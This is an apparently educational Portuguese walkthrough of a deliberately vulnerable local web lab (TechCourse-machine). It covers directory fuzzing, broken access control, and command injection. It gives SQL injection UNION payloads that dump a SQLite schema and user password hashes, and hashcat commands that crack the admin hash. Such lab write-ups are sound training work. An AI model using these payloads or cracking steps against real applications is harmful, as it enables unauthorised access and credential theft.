 # JWT COURSE

Criei este desafio com o intuito de ajudar a comunidade de hacking e colocar meus conhecimentos em programação em prática.

Esta aplicação contém três tipos comuns de vulnerabilidades web, frequentemente encontradas no dia a dia: broken access control, SQL Injection e Command Injection.

Deixarei abaixo os comandos de como baixar o projeto e executar em sua maquina.

Baixar o projeto:

```jsx
git clone https://github.com/turnerlk/TechCourse-machine
```

Acesse o diretório:

```jsx
cd TechCourse-machine
```

Utilizando o comando abaixo a aplicação estará executando [localhost](http://localhost) (http://127.0.0.1) na porta 80:

```jsx
sudo docker-compose up --build
```

Caso você não tenha o docker, utilize o seguinte comando para instalar em sua maquina.

```jsx
sudo apt update
sudo apt install -y docker.io
```

E aí? Tudo pronto? Vamos explorar?

Vambora……

Quando acessamos a aplicação em 127.0.0.1, observamos que a página inicial contém algumas informações sobre o que é a plataforma, etc.

Então, iniciamos nossa exploração, clicamos em "Log In" e somos redirecionados para a tela de login da aplicação.

![Untitled 1](https://github.com/turnerlk/TechCourse-machine/assets/84579382/32e33257-9767-482e-80e6-10c6a3745831)

![Untitled 2](https://github.com/turnerlk/TechCourse-machine/assets/84579382/a42d2f4b-2afc-4f45-87b6-7b4f77879ef4)

![Untitled 3](https://github.com/turnerlk/TechCourse-machine/assets/84579382/54e3f986-8e68-4dbe-9066-568af9d62d95)

Após a tentativa malsucedida de utilizar credenciais padrão, decidimos realizar uma varredura de diretórios visando identificar possíveis rotas ou arquivos que pudessem conter informações sensíveis ou apresentar vulnerabilidades.

Com a ferramenta WFUZZ, realizamos o fuzzing de diretórios e encontramos as seguintes rotas:

![Untitled 4](https://github.com/turnerlk/TechCourse-machine/assets/84579382/db6f7a89-ef08-4944-8440-a538b025d8bf)

```jsx
wfuzz -z file,big.txt --hc 404 http://127.0.0.1/FUZZ/
```

Podemos observar que a rota "course" retornou o código 200 e o valor de "chars" foi bastante elevado.

Tentamos acessar a rota e fomos direcionados para a rota "login". Então, abrimos o Burp Suite e interceptamos a requisição para "/course/".

Ao analisar o acesso à rota com a ferramenta Burp, notamos que o HTML da página do curso foi retornado com sucesso. Além disso, foi possível visualizar o conteúdo de um curso específico diretamente da rota explorada.
  
![Untitled 5](https://github.com/turnerlk/TechCourse-machine/assets/84579382/3f2f0b78-5f54-4a5d-9ad4-d597976c6a9a)

Primeira vulnerabilidade encontrada!

“A vulnerabilidade de broken access control é **um tipo de falha de segurança que permite que um usuário não autorizado acesse recursos restritos** . Ao explorar esta vulnerabilidade, os invasores podem contornar os procedimentos de segurança padrão e obter acesso não autorizado a informações ou sistemas confidenciais”

Analisando o HTML, podemos observar que existe um campo de pesquisa na página. Utilizando esse campo para pesquisar um curso dentro da plataforma, notamos que o campo de pesquisa está funcionando perfeitamente. Pesquisamos pelo curso "Python" e retornou apenas o curso pesquisado.

```jsx
/course/?q=python
```

![Untitled 6](https://github.com/turnerlk/TechCourse-machine/assets/84579382/776ebae3-655c-462e-8e90-1a57c3a8ca14)
 

Utilizamos uma payload de SQLI neste campo e observamos que todos os cursos foram retornados sem nenhum erro.

```jsx
/course/?q=a'or+1+%3d+1+--+-
```

![Untitled 7](https://github.com/turnerlk/TechCourse-machine/assets/84579382/f304c32f-d8c7-4ac1-b4d8-dd9550ec7b5b)

Após alguns testes de SQLI, conseguimos pegar o número de colunas que existe no banco de dados, nesse caso existem 4 colunas.

![Untitled 8](https://github.com/turnerlk/TechCourse-machine/assets/84579382/eaeb5687-45d4-4ef2-a4a3-b0583b1811cf)

![Untitled 9](https://github.com/turnerlk/TechCourse-machine/assets/84579382/7cb50bcc-c1ea-4a45-ba93-9b34a72ed911)

Conseguimos encontrar a segunda vulnerabilidade.

“A injeção de SQL, também conhecida como SQLI, é **um vetor de ataque comum que usa código SQL malicioso para manipulação de banco de dados de back-end para acessar informações que não deveriam ser exibidas** . Essas informações podem incluir qualquer número de itens, incluindo dados confidenciais da empresa, listas de usuários ou detalhes particulares de clientes.”

Como podemos observar acima, o banco possui 4 colunas.

Após alguns testes, conseguimos ver a versão do banco de dados e qual tecnologia está rodando, que nesse caso é o sqlite 3.40.1.

Deixaremos o link abaixo de artigos para explorar esse tipo de vulnerabilidade nesta tecnologia.

[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)

[https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)

Testando algumas payloads e conseguimos trazer algumas tabelas do branco de dados e o nome das tabelas.

```jsx
a'union SELECT 1,sql,3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='auth_user' -- -
```

![Untitled 10](https://github.com/turnerlk/TechCourse-machine/assets/84579382/cca7549c-4d1a-42cb-aa98-37b1d4136737)

```jsx
a'union+SELECT+1,tbl_name,3,4+FROM+sqlite_master+where+type%3d'table'+and+tbl_name+NOT+like+'sqlite_%25''+--+-
```

![Untitled 11](https://github.com/turnerlk/TechCourse-machine/assets/84579382/713839f1-37cb-4fa9-a3ed-6a8ca3f3c958)

```jsx
a' union SELECT 1,GROUP_CONCAT(name),3,4 AS column_names FROM pragma_table_info('auth_user'); -- -
```

![Untitled 12](https://github.com/turnerlk/TechCourse-machine/assets/84579382/9d5f2b0e-b252-4b14-af1b-aeae3ca64321)

Como podemos analisar acima, a nossa payload retornou os nomes das tabelas e as colunas de cada tabela, então vamos ler a coluna username e  password, da tabela  auth_user.

```jsx
a' union select 1,password,username,4 from auth_user -- -
```

![Untitled 13](https://github.com/turnerlk/TechCourse-machine/assets/84579382/40711759-0c52-4eaa-b1dd-bcf38449ac41)

Como podemos notar, conseguimos obter acesso às informações do usuário administrador, incluindo o seu nome de usuário e a hash da senha.

Copiamos a hash do usuário admin e, em seguida, no nosso terminal (no meu caso, estou usando um Kali Linux), criamos um arquivo e colamos a hash dentro desse arquivo.

![Untitled 14](https://github.com/turnerlk/TechCourse-machine/assets/84579382/b94a9b60-d83b-4227-9ca3-af02e649308b)

Utilizando a ferramenta Hashcat, uma aplicação projetada para realizar quebra de senhas, empregamos a mesma para identificar o tipo específico da hash.

 

```jsx
hashcat --identify hash
```

![Untitled 15](https://github.com/turnerlk/TechCourse-machine/assets/84579382/96b8c9a5-d1c6-4cd5-9479-7c007b14694b)

Com o comando que vamos disponibilizar abaixo, podemos tentar quebrar a hash do usuário admn e trazer a senha tem texto claro.

```jsx
sudo hashcat -a0 -m 10000 senha /usr/share/wordlists/rockyou.txt
```

![Untitled 16](https://github.com/turnerlk/TechCourse-machine/assets/84579382/7d14b316-fcbd-4380-8f2a-3d59e4c07bb2)

Como podemos perceber, conseguimos capturar a senha do administrador. Agora, procederemos com o acesso à aplicação.

Neste ponto, destacamos a importância de utilizar senhas complexas. Caso o administrador tivesse adotado uma senha mais robusta, a quebra da mesma seria consideravelmente mais desafiadora.

![Untitled 17](https://github.com/turnerlk/TechCourse-machine/assets/84579382/0b5d7ad0-998f-4f82-8ff3-6e8936558c89)

Quando acessamos a rota /monitor_logs/, podemos observar que se trata de um painel onde o administrador utiliza comandos para bloquear alunos, realizar reload, entre outras ações. O painel exibe alguns comandos que podem ser utilizados.

Ao testar alguns desses comandos, conseguimos identificar nossa terceira vulnerabilidade conhecida como command injection.

Command injection: é **um ataque cibernético que envolve a execução de comandos arbitrários em um sistema operacional (SO) host** . Normalmente, o agente da ameaça injeta os comandos explorando uma vulnerabilidade do aplicativo, como validação de entrada insuficiente.

![Untitled 18](https://github.com/turnerlk/TechCourse-machine/assets/84579382/42d99895-82ae-4d7d-8a77-18a4fe00fa2a)

Feito isso agora é só explorar.

Com essa vulnerabilidade é possível um RCE (remote command execution).

![Untitled 19](https://github.com/turnerlk/TechCourse-machine/assets/84579382/2742842b-90f1-4088-a2c5-b652979c3d76)

![Untitled](https://github.com/turnerlk/TechCourse-machine/assets/84579382/27e0174f-360b-4ba2-b459-1f0436aa0708)

E assim concluímos nossa jornada! Este laboratório proporcionou a aprendizagem de três vulnerabilidades presentes em aplicações que podem ser encontradas mundo real.

Agradeço sinceramente a você, leitor, por baixar e testar o meu projeto. Espero que tenha contribuído para o seu conhecimento. Se possível, compartilhe com amigos, ajudando na disseminação do aprendizado.

Estou disponível para trocar ideias, criticas e sugestões. Deixo aqui meu LinkedIn e Instagram. Obrigado mais uma vez pela sua participação!

Linkedin: [https://www.linkedin.com/in/lucas-dantas-625007131/](https://www.linkedin.com/in/lucas-dantas-625007131/)

Instagram: [https://www.instagram.com/llucas.dantass/](https://www.instagram.com/llucas.dantass/)
